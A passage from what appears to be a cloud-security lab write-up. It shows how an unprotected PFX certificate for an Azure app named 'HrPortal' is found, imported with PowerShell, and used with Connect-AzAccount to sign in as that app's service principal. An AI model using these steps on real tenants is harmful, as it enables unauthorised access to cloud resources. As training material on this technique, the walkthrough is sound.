 ```
"2535bbc8-5706-4e59-a075-d8d3a8182127","DEV-Azure-Function-prod","AzureADandPersonalMicrosoftAccount"
"f7b31ce5-6e5d-4821-9ab1-68c720b51ff6","DEV-Azure-Function-nlrig","AzureADandPersonalMicrosoftAccount"
"a804084f-a18f-4464-890b-08a8cb04eb21","DEV-Azure-Function-prod1","AzureADandPersonalMicrosoftAccount"
"7743dae0-323a-4679-adb2-cce4b137d0de","MSP-Connector-App-rxodt","AzureADandPersonalMicrosoftAccount"
"e0084e0b-95a2-433d-8f62-df26d6e9ab83","MSP-Connector-App-qwoux","AzureADandPersonalMicrosoftAccount"
"546459a5-e97d-429a-967d-b8a59a476b3e","MSP-Connector-App-nlrig","AzureADandPersonalMicrosoftAccount"

```

A PFX file is a binary file designed to encapsulate multiple cryptographic components, potentially comprising of private keys, public keys, and digital certificates. The` Get-PfxCertificate` cmdlet shows that it was created for the `HrPortal` and it seems it's not protected with a password.
```
└─PS> Get-PfxCertificate -FilePath "sp.pfx" | fl                                                                                                                                                                                            

Subject      : CN=HrPortal
Issuer       : CN=HrPortal
Thumbprint   : 8641763A94ED35C77DBA10E5A302DDDE29EE6769
FriendlyName : 
NotBefore    : 4/14/2024 2:07:18 AM
NotAfter     : 1/1/2100 2:07:18 AM
Extensions   : {System.Security.Cryptography.Oid, System.Security.Cryptography.Oid, System.Security.Cryptography.Oid}
```
We saw `HrPortal` in `csv` file 
```
└─$ cat ApplicationIDs.csv 
<SNIP>
"20acc5dd-ffd4-41ac-a1a5-d381329da49a","HrPortal","AzureADMyOrg"
<SNIP>
```
We usually authenticate as a service principal associated with an Azure application using an ID and secret (password). However it's also possible to authenticate using certificates rather than secrets.

When authenticaiton on Windows, we have to add the certificate to local certificate store
```
Get-ChildItem -Path sp.pfx | Import-PfxCertificate -CertStoreLocation Cert:\CurrentUser\My -Exportable
```
Then authenticate as the service principal using the tenant Id and the client ID associated with the `HrPortal`
```
$tenantId = "2590ccef-687d-493b-ae8d-441cbab63a72"
$clientId = "20acc5dd-ffd4-41ac-a1a5-d381329da49a"
$certThumbprint = "8641763A94ED35C77DBA10E5A302DDDE29EE6769"

$store = New-Object System.Security.Cryptography.X509Certificates.X509Store("My", "CurrentUser")
$store.Open([System.Security.Cryptography.X509Certificates.OpenFlags]::ReadOnly)
$cert = $store.Certificates.Find([System.Security.Cryptography.X509Certificates.X509FindType]::FindByThumbprint, $certThumbprint, $false)[0]
$store.Close()

Connect-AzAccount -CertificateThumbprint $certThumbprint -ApplicationId $clientId -TenantId $tenantId -ServicePrincipal
```
